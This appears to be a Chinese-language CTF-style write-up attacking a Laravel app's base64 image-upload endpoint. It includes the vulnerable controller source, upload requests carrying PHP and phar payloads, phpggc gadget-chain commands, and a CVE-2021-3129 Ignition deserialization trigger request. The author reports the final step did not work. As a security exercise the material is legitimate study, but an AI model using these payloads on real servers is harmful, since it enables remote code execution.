

开启了Debug模式，看看能不能打那个RCE

先看看vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php

在Http/Api/FileController类下找到一个image_base64的方法

```php
<?php
/**
 * Author：春风
 * WeChat：binzhou5
 * Date：2020/10/24 14:25
 */

namespace App\Http\Controllers\Api;

use App\Http\Controllers\Controller;
use Illuminate\Support\Str;

class FileController extends Controller
{
    public function __construct()
    {
        // $this->middleware('jwt.auth');
    }

    /**
     * Base64 图片上传
     * @return \Illuminate\Http\JsonResponse
     */
    public function image_base64()
    {
        $data = request()->post('data');
        if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $data, $result)) {
            $type = $result[2];
            if (in_array($type, array('pjpeg', 'jpeg', 'jpg', 'gif', 'bmp', 'png'))) {
                $url_path = 'images/'.auth('api')->id().'_'.Str::random().'.'.$type;
                $file_path = public_path('uploads') .'/'. $url_path;
                if (file_put_contents($file_path, base64_decode(str_replace($result[1], '', $data)))) {
                    return response()->json([
                        'code' => 200,
                        'data' => [
                            'url' =>  $url_path
                        ]
                    ]);
                } else {
                    return response()->json([
                        'code' => 500,
                        'message' => '上传失败'
                    ]);
                }
            } else {
                return response()->json([
                    'code' => 500,
                    'message' => '图片上传类型错误'
                ]);
            }
        } else {
            return response()->json([
                'code' => 500,
                'message' => '类型错误'
            ]);
        }
    }
}

```

可以上传文件，试着上传一个php文件看看

```html
POST /api/image/base64 HTTP/1.1
Host: 1.95.34.119:41164
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json

{"data":"data:image/jpeg;base64,PD9waHAgcGhwaW5mbygpOyA/Pg=="}
```





上传成功，然后就是如何触发的问题

后面在源码中发现了有Ignition 组件源码，我们看一下CVE-2021-3129能不能打

利用phpggc生成恶意payload

```php
php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o /tmp/phar.gif
php -d'phar.readonly=0' ./phpggc monolog/rce1 call_user_func phpinfo --phar phar -o /tmp/test.gif
cat /tmp/test.gif | base64 -w 0
```

上传发包

```http
POST /api/image/base64 HTTP/1.1
Host: 1.95.34.119:41164
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Content-Type: application/json

{"data":"data:image/gif;base64,PD9waHAgX19IQUxUX0NPTVBJTEVSKCk7ID8+DQr+AQAAAQAAABEAAAABAAAAAADIAQAATzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2FkY2FzdCI6Mjp7czo5OiIAKgBldmVudHMiO086MjU6IklsbHVtaW5hdGVcQnVzXERpc3BhdGNoZXIiOjE6e3M6MTY6IgAqAHF1ZXVlUmVzb2x2ZXIiO2E6Mjp7aTowO086MjU6Ik1vY2tlcnlcTG9hZGVyXEV2YWxMb2FkZXIiOjA6e31pOjE7czo0OiJsb2FkIjt9fXM6ODoiACoAZXZlbnQiO086Mzg6IklsbHVtaW5hdGVcQnJvYWRjYXN0aW5nXEJyb2FkY2FzdEV2ZW50IjoxOntzOjEwOiJjb25uZWN0aW9uIjtPOjMyOiJNb2NrZXJ5XEdlbmVyYXRvclxNb2NrRGVmaW5pdGlvbiI6Mjp7czo5OiIAKgBjb25maWciO086MzU6Ik1vY2tlcnlcR2VuZXJhdG9yXE1vY2tDb25maWd1cmF0aW9uIjoxOntzOjc6IgAqAG5hbWUiO3M6NzoiYWJjZGVmZyI7fXM6NzoiACoAY29kZSI7czoyNToiPD9waHAgcGhwaW5mbygpOyBleGl0OyA/PiI7fX19CAAAAHRlc3QudHh0BAAAAIDKdGgEAAAADH5/2KQBAAAAAAAAdGVzdBsJxZ16KLI9YqcXd38DucW0USnSAgAAAEdCTUI="}
```



然后触发phar反序列化

```http
POST /_ignition/execute-solution HTTP/1.1
Host: 1.95.34.119:41164
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{
"solution":"Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
"parameters":{
"viewFile":"phar:///var/www/html/public/uploads/images/_ywA9GzTeBuT3qSZs.gif/test.txt",
"variableName":"test"
}
}
```

不知道为啥一直500没打通，好奇怪
